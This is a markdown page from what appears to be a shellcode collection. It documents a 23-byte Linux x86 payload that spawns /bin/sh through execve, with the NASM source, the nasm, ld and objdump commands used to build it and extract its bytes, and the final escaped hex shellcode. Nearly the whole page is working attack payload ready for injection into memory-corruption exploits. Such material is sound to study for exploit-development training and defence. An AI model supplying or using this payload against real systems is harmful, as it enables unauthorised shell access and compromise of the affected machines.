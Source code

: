 ```yaml
---
layout: default
title: execve("/bin/sh", NULL, 0) - Spawn shell
permalink: /shellcode/asm-01.html
os: Linux
arch: Intel x86
length: 23
---
```


# {{ page.title }}

---
**OS:** {{ page.os }}

**Architecture:** {{ page.arch }}

**Length:** {{ page.length }} bytes

---

## Assembly

```nasm
section .text
global _start

_start:
	xor ebx, ebx		; null ebx
	mul ebx			; eax, ebx, edx = 0

	mov ecx, eax		; move eax (0) into ecx
	mov al, 0xb		; move execve syscall number into al (eax)

	push ebx		; push null terminator
	push 0x68732f2f		; push "//sh"
	push 0x6e69622f		; push "/bin"
	mov ebx, esp		; move pointer to "/bin//sh" into ebx

	int 0x80		; call execve
```

## Compilation and Linking

```bash
# Assemble
nasm -f elf -o code.o code.asm

# Link
ld -m elf_i386 -o code code.o

# Extract Shellcode
printf '\\x' && objdump -d code | grep "^ " | cut -f2 | tr -d ' ' | tr -d '\n' | sed 's/.\{2\}/&\\x /g'| head -c-3 | tr -d ' ' && echo ' '
```

## Shellcode

```
\x31\xdb\xf7\xe3\x89\xc1\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80
```